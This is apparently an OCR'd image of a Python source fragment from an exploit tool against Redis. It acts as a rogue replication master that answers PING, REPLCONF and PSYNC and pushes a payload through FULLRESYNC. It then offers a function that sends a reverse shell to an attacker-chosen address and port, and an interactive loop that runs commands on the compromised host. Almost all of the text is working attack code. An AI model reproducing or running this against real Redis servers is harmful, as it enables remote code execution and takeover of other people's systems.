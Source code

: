 ```python
            resp = "+PONG" + CLRF
            phase = 1
        elif data.find("REPLCONF") > -1:
            resp = "+OK" + CLRF
            phase = 2
        elif data.find("PSYNC") > -1 or data.find("SYNC") > -1:
            resp = "+FULLRESYNC " + "Z" * 40 + " 0" + CLRF
            resp += "$" + str(len(payload)) + CLRF
            resp = resp.encode()
            resp += payload + CLRF.encode()
            phase = 3
        return resp, phase

    def close(self):
        self._sock.close()

    def exp(self):
        try:
            cli, addr = self._sock.accept()
            print("\033[92m[+]\033[0m Accepted connection from {}:{}".format(addr[0], addr[1]))
            while True:
                data = din(cli, 1024)
                if len(data) == 0:
                    break
                resp, phase = self.handle(data)
                dout(cli, resp)
                if phase == 3:
                    break
        except Exception as e:
            print("\033[1;31;m[-]\033[0m Error: {}, exit".format(e))
            cleanup(self._remote, self._file)
            exit(0)
        except KeyboardInterrupt:
            print("[-] Exit..")
            exit(0)


def reverse(remote):
    print("[*] Open reverse shell...")
    addr = input("[*] Reverse server address: ")
    port = input("[*] Reverse server port: ")
    remote.reverse_shell(addr, port)
    print("\033[92m[+]\033[0m Reverse shell payload sent.")
    print("[*] Check at {}:{}".format(addr, port))


def interact(remote):
    print("\033[92m[+]\033[0m Interactive shell open , use \"exit\" to exit...")
    try:
        while True:
            cmd = input("$ ")
            cmd = cmd.strip()
            if cmd == "exit":
                return
            r = remote.shell_cmd(cmd)
            if 'unknown command' in r:
                print("\033[1;31;m[-]\033[0m Error:{} , check your module!".format(r.strip()))
                return
            for l in decode_shell_result(r).split("\n"):
                if l:
                    print(l)
    except KeyboardInterrupt:
        return
```